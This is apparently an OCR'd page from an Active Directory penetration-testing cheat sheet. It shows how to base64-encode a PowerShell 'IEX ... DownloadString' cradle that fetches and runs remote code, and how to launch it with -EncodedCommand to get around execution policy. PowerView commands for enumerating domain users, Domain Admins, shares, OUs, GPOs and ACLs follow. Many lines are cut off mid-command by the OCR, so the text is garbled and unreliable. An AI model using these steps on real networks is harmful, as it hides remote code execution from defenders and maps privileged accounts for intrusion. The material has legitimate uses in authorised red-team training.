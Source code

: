 Encode command
Encode one liner
$command = 'IEX (New-Object Net.WebClient).DownloadStrin
$bytes = [System.Text.Encoding]::Unicode.GetBytes($comma
$encodedCommand = [Convert]::ToBase64String($bytes)

Encode existing script copy to clipboard
[System.Convert]::ToBase64String([System.IO.File]::ReadA

Run it bypassing execution policy
Powershell -EncodedCommand $encodedCommand

If you have Nishang handy you can use Invoke Encode ps

Enumeration
AD Enumeration With PowerView
# Get all users in the current domain
Get-NetUser | select -ExpandProperty cn
5/31

# Get all computers in the current domain
Get-NetComputer
# Get all domains in current forest
Get-NetForestDomain
# Get domain/forest trusts
Get-NetDomainTrust
Get-NetForestTrust
# Get information for the DA group
Get-NetGroup -GroupName "Domain Admins"
# Find members of the DA group
Get-NetGroupMember -GroupName "Domain Admins" | select # Find interesting shares in the domain, ignore default
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -Exclu
# Get OUs for current domain
Get-NetOU -FullData
# Get computers in an OU
# %{} is a looping statement
Get-NetOU -OUName StudentMachines | %{Get-NetComputer -A
# Get GPOs applied to a specific OU
Get-NetOU *student* | select gplink
Get-NetGPO -Name "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
# Get Restricted Groups set via GPOs, look for interesti
Get-NetGPOGroup
# Get incoming ACL for a specific object
Get-ObjectACL -SamAccountName "Domain Admins" -ResolveGU